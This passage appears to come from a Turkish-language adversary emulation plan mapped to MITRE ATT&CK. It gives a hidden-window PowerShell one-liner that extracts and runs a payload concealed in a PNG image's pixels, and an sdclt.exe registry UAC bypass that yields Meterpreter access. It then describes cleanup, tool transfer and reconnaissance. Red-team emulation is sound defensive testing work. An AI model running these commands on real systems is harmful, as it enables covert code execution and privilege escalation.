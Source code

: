 Prompt giriş beklediğinde saldırgan, aşağıdaki 1-liner'ı yazar:

```powershell
powershell.exe -noni -noexit -ep bypass -window hidden -c "sal a New-Object;Add-Type -AssemblyName 'System.Drawing'; $g=a System.Drawing.Bitmap('C:\Users\username\Downloads\monkey.png');$o=a Byte[] 4480;for($i=0; $i -le 6; $i++){foreach($x in(0..639)){$p=$g.GetPixel($x,$i);$o[$i*640+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G-band15))}};$g.Dispose();IEX([System.Text.Encoding]::ASCII.GetString($o[0..3932]))"
```

[pupy (PowerShell)] >

```powershell
Set-ItemProperty -Path "HKCU:\Software\Classes\Folder\shell\open\command" -Name "DelegateExecute" -Force
```

Prompt giriş beklediğinde saldırgan Enter'a basar:

[pupy (PowerShell)] > `exit`

[pupy (CMD)] > `%windir%\system32\sdclt.exe`

[pupy CMD] > `powershell`

Bundan sonra saldırgana Meterpreter çağrısı erişir.

#### 3.3. Modify Registry ([T1112](https://attack.mitre.org/techniques/T1112/))

Saldırgan Registry'i düzenler.

[pupy (PowerShell)] > `Remove-Item -Path HKCU:\Software\Classes\Folder* -Recurse -Force`

[pupy (PowerShell)] > `exit`

[pupy (CMD)] > `exit`

### Adım 4: Savunmayı Atlatma ve Keşif

Saldırgan, etkileşimli bir powershell.exe kabuğu ([T1086](https://attack.mitre.org/versions/v6/techniques/T1086/) / [T1059.001](https://attack.mitre.org/techniques/T1059/001/)) oluşturmadan önce yeni, yükseltilmiş erişim aracılığıyla ek araçlar ([T1105](https://attack.mitre.org/techniques/T1105/)) yükler. Ek araçlar sıkıştırılır ([T1140](https://attack.mitre.org/techniques/T1140/)) ve kullanım için hedef üzerine yerleştirilir. Saldırgan daha sonra, bu erişimle ilişkili çeşitli dosyaları ([T1107](https://attack.mitre.org/versions/v6/techniques/T1107/) / [T1070.004](https://attack.mitre.org/techniques/T1070/004/)) silmeden önce Adım 1'deki ilk erişimi keşfetmek/sonlandırmak için çalışan süreçleri ([T1057](https://attack.mitre.org/techniques/T1057/)) sıralar. Son olarak, saldırgan, bazıları Windows API'sine ([T1106](https://attack.mitre.org/techniques/T1106/)) erişerek yapılan çok çeşitli keşif komutları ([T1016](https://attack.mitre.org/techniques/T1016/), [T1033](https://attack.mitre.org/techniques/T1033/), [T1063](https://attack.mitre.org/versions/v6/techniques/T1063/) / [T1518.001](https://attack.mitre.org/techniques/T1518/001/), [T1069](https://attack.mitre.org/techniques/T1069/), [T1082](https://attack.mitre.org/techniques/T1082/), [T1083](https://attack.mitre.org/techniques/T1083/)) gerçekleştiren bir PowerShell betiği başlatır.

**Prosedür:**

#### 4.1. Ingress Tool Transfer ([T1105](https://attack.mitre.org/techniques/T1105/))
